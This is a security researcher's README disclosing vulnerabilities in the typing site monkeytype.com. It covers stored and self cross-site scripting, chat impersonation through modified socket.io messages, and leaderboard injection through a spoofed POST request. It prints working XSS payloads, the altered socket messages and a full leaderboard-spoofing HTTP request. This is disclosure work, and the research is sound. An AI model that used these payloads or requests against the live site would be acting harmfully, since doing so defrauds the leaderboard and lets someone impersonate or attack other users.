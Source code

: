 
```
                      .="=.
                    _/.-.-.\_     _      
                    ( ( o o ) )    ))
                    |/  "  \|    //
    .-------.        \'---'/    //
    _|~~ ~~  |_       /`"""`\\  ((
=(_|_______|_)=    / /_,_\ \\  \\
    |:::::::::|      \_\\_'__/ \  ))
    |:::::::[]|       /`  /`~\  |//
    |o=======.|      /   /    \  /
    `"""""""""`  ,--`,--'\/\    /
                '-- "--'  '--'
  Vulnerability Research by Tyler Butler 🐒 
```



# Banana Cannon 🍌
This repository contains vulnerability research on [monkeytype.com](https://monkeytype.com/), a popular typing-test application with a growing online community. Current research includes two cross-site scripting vulenrabilities, a proof of concept exploit that allows users to automatically top the leaderboard, and a proof of concept for impersonating other user's in Tribe chat via socket modification.



**Table of Contents**
- [Identified Vulnerabilities](#identified-vulnerabilities)
  - [Stored Cross-Site Scripting (XSS) via Tribe Chat](#stored-cross-site-scripting-xss-via-tribe-chat-1476)
  - [Arbitrary Leaderboard Position via Improper Authorization ](#arbitrary-leaderboard-position-via-improper-authorization)
  - [Tribe Chat User Spoofing via Improper Authorization](#tribe-chat-user-impersonation--cwe-285-improper-authorization)
  - [Self Cross Site Scripting (XSS) via Word History](#self-cross-site-scripting-xss-via-word-history)
- [Proof of Concept Exploits](#proof-of-concept-exploits)
  - [BananaCannon.py](#BananaCannon)

# Identified Vulnerabilities

> The following section describes publically disclosed vulnerabilities
## Stored Cross-Site Scripting (XSS) via Tribe Chat #1476

![](img/tribe_stored_xss.gif)

### Overview

The MonkeyType Tribe chat at https://dev.monkeytype.com/tribe is vulnerable to stored cross-site scripting through user comments and username. The research concludes that client-side input validation can be evaded by intercepting raw web socket traffic, and injecting payloads directly into message content. To do so, malicious users can enter a non-xss string in the chat field and send it to web server, then capture the web socket traffic with a proxy tool like BurpSuite, and finally modify the input to a XSS payload.

### Payload   

In this example, I used an `onclick` payload to demonstrate the capability. The final payload was ```test<svg/onclick=alert`xss`>```

**Socket Message**

```json
42["mp_chat_message",{"isSystem":false,"isLeader":true,"message":"test<svg/onclick=alert`xss`>","from":{"id":"i6ZO4keqlEgwQHY-AAAm","name":"pwnville"}}]
```

![](img/tribe_stored_xss.png)


### To Reproduce

+ Configure [BurpSuite](https://portswigger.net/burp) to intercept browser traffic
+ Navigate to https://dev.monkeytype.com/tribe
+ Click on "create room"
+ Turn on BurpSuite proxy interception
+ Enter a new chat string
+ Intercept the web socket traffic, and chang the chat string to an XSS payload, example below.

```json
42["mp_chat_message",{"isSystem":false,"isLeader":true,"message":"test<svg/onclick=alert`xss`>","from":{"id":"i6ZO4keqlEgwQHY-AAAm","name":"pwnville"}}]
```


![](img/tribe_stored_xss_burp.png)


### Disclosure Timeline 

+ **May 27th, 2021**: Vulnearbility Discovered and Disclosed on Github per guidance as issue [#1476](https://github.com/Miodec/monkeytype/issues/1476)
+ **May 27th, 2021**: Patch issued


## Arbitrary Leaderboard Position via Improper Authorization

### Overview 

Monkeytype.com is vulnerable to authenticated bypass by spoofing in the leaderboard. Users can bypass leaderboard controls and inject any object they want into the leaderboard by spoofing post requests to `/checkLeaderboards`. Malicious users can send specially crafted post requests and inject any user they want to the top of the leaderboard with any value words per minuet they want. Server does invalidate requests with cross-site scripting (XSS) payloads, therefore I believe this is not vulnerable to XSS.

### Payload

```yaml
POST /checkLeaderboards HTTP/2
Host: us-central1-monkey-type.cloudfunctions.net
Content-Length: 750
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="90"
Authorization: Bearer 
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://monkeytype.com
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://monkeytype.com/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"data":{"uid":"aXi5udatSndUhoQR5pUtR6GpvGF3","lbMemory":{"time15":{"global":null,"daily":null},"time60":{"global":null,"daily":null}},"name":"pwnville_foo2<script>console.log","banned":null,"verified":null,"discordId":null,"result":{"wpm":200.00,"rawWpm":200.00,"correctChars":250,"incorrectChars":6,"allChars":250,"acc":92,"mode":"time","mode2":15,"quoteLength":-1,"punctuation":false,"numbers":false,"timestamp":1622147912060,"language":"english","restartCount":0,"incompleteTestSeconds":0,"difficulty":"normal","testDuration":15.001134999999515,"afkDuration":0,"blindMode":false,"theme":"9009","tags":[],"consistency":83.22,"keyConsistency":45.56,"funbox":"none","bailedOut":false,"customText":null,"uid":"aXi5udatSndUhoQR5pUtR6GpvGF3","id":"vZkPA1dmzeUvaGQPkE4Z"}}}
```

> After making the above post request, my user was added to the top of the leaderboard  


![](img/leader.png)  

## Tribe Chat User Impersonation | CWE-285: Improper Authorization

![](img/tribe_chat_impersonation.gif)

**Detail**: User messages in the [Tribe Chat](https://dev.monkeytype.com/tribe) can be impersonated due improper authorization. Malicious users can abuse current socket message authentication measures to create messages that appear to come from other users or system. 


**To Reproduce** <!-- Steps to reproduce the behavior: -->

> See video proof of concept above

1. Go to a tribe chat room, ex: https://dev.monkeytype.com/tribe_1d849e
2. Send a message, capturing the socket.io message. 
`42["mp_chat_message",{"isSystem":false,"isLeader":true,"message":"Hey this is still alice","from":{"id":"UocD_4qRZiXGbXf8AA-n","name":"alice"}}]`
3. Modify the name parameter, and re-send
`42["mp_chat_message",{"isSystem":false,"isLeader":true,"message":"Hey this is still alice","from":{"id":"UocD_4qRZiXGbXf8AA-n","name":"bob"}}]`  

**Expected behavior**: The socket.io implementation should use an authentication/token system to ensure that the user sending the message is authorized to be using their unique name. The socket.io [middleware](https://socket.io/docs/v3/middlewares/) function might be useful in achieving this. 




## Self Cross Site Scripting (XSS) via Word History

![](img/self_xss2.png)

### Overview   

User input is interpreted by the browser unsanitized when entered into the typing challenge. Once the challenge is over and the user opens the "word history" tab, hovering over the mispelled words will cause the browser to interpret the payload as valid injected code. Under current limitations significant code execution cannot be caused due to character limit, however more research should be done to prove impact. This occurs in default settings.

### To Reproduce 

For a XSS payload, just start typing the following upon immediatly starting a new typing test ```"><svg/onclick=alert1`>```

+  Start a new typing challenge
+  Spell the first word correctly, then immediately after the first word and with no spaces after, terminate the string with ">
+  Enter payload
+  Once the timer is complete, select the option to view word history
+  Hover over the misspelled word, and the payload will execute

![](img/self_xss1.png)


# Proof of Concept Exploits  
## BananaCannon
### What is it? 
BananaCannon is a quick proof of concept to show how any user can enter the daily and global leaderboards of [MonkeyType](https://monkeytype.com) by sending carefully crafted post requests to the firebase server located at `https://us-central1-monkey-type.cloudfunctions.net:443/checkLeaderboards`.

### How does it Work?  

BananaCannon works by sending a new post request to `https://us-central1-monkey-type.cloudfunctions.net:443/checkLeaderboards`, passing along a username, uid, and result details. Back-end logic on firebase checks the `wpm`, `rawwpm`, `correctChars`, `incorrectChars`, and `allChars` parameters to ensure an acceptible score is being set. 

